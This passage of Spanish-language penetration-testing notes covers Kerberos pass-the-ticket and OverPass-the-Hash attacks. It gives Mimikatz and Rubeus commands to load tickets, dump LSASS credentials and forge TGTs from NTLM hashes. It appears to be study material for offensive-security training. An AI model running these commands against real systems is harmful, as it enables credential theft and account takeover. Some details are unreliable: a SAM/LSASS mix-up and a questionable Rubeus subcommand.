 ```cmd-session
Rubeus.exe describe /ticket:<ruta_al_ticket>.kirbi
```

### Cargar un Ticket

#### Con `Mimikatz`
```
mimikatz.exe
kerberos::ptt <ticket.kirbi>
```

#### Con `Rubeus`
##### Con `ticket.kirbi`
```
rubeus.exe ptt /ticket:<ticket.kirbi>
```
##### Con ticket base64
```powershell
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```


---

## OverPass-the-Hash 
(Pensar en un PTH, pero en kerberos)
La idea de este ataque es que, en lugar de usar el hash NTLM para autenticarse directamente como en un **Pass-the-Hash (PTH)** tradicional, se usa el hash NTLM para **generar un ticket Kerberos (TGT) en memoria**, lo que permite autenticarse en servicios basados en Kerberos (como SMB, WinRM, RDP, HTTP, etc.)
Para un ataque **OverPass-the-Hash necesitamos 
1. Que el usuario que vamos a suplantar tenga una sesión activa en kerberos
2. Clave`RC4_HMAC`: Es en esencia el hash NTML del usuario reutilizado como clave Kerberos (preferible extraerla de LSASS, ya que el usuario debe estar autenticado y la clave extraída es más fiable)
### Extraer clave 
- Cuando queremos extraer la clave `rc4_hmac` podemos hacerlo directamente de la SAM:
	```powershell
	.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit *> dumpLSASS.txt
	#También podríamos extraer esta clave (y además la AES256) con 
	sekurlsa::ekeys
	```

### Generar un TGT 
Los ejemplos que se proporcionan a continuación son con una clave `RC4_HMAC`. Si en su lugar tuviéramos una clave  `AES256_HMAC` , en lugar de poner `/rc4:<hash>` (ó `ntlm:<hash>`), deberíamos poner `/aes256:<clave>`
#### Con Rubeus
```bash
rubeus.exe tgtdeleg /user:<username> /rc4:<NTLM_hash>
```
